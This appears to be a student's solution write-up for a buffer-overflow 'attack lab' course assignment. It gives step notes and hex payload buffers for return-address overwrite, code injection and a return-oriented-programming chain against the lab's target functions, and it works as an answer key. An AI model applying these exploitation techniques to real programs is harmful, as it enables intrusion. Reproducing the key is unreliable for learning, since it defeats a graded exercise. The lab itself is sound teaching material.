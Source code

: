 Phase 0
=======

Determine address of touch1()

Determine size allocated for stack

Convert address using hex2raw

Insert address in buffer (pad rest with 00's)

Sample buffer:

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  55 19 40 00 00 00 00 00  /* address of touch1 */

Phase 1
=======

Similar to previous phase, but call a function with an argument

Will call touch2(cookie)

Make a .s file with movl cookie, $edi 

Generate .o file with gcc

	gcc -c file.s

Obtain hex for instruction

	objump -d file.o

Insert instruction 

Sample buffer:

  bf 9a d9 e2 68 c3 00 00  /* instruction: 
				movl cookie, edi
				retq */

  00 00 00 00 00 00 00 00

  00 00 00 00 00 00 00 00

  38 81 67 55 00 00 00 00  /* address of movl cookie, edi */

  81 19 40 00 00 00 00 00  /* address of touch2 */

Phase 2
=======

Call touch3() with cookie's string representation as argument
Similar strategy as in Phase 1 but you have to put the argument
deeper in the stack because if not, other called functions will overwrite
it. To work, the buffer must be large (I did 24 * 8 bytes), and I put the
argument at the end. The trickiest part is making sure that you get the 
right endian form for the string and you know where the address of the 
argument is.

Solution:

48 8d 3c 25 f8 81 67 55
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 81 67 55 00 00 00 00  
8f 1a 40 00 00 00 00 00
48 c7 04 25 e7 81 67 55  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
36 38 65 32 64 39 39 61

Phase 3
=======
Use return oriented programming to call touch2(cookie)
Solution:

dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
dd dd dd dd dd dd dd dd
5d 1b 40 00 00 00 00 00
9a d9 e2 68 00 00 00 00
35 1b 40 00 00 00 00 00
81 19 40 00 00 00 00 00                         
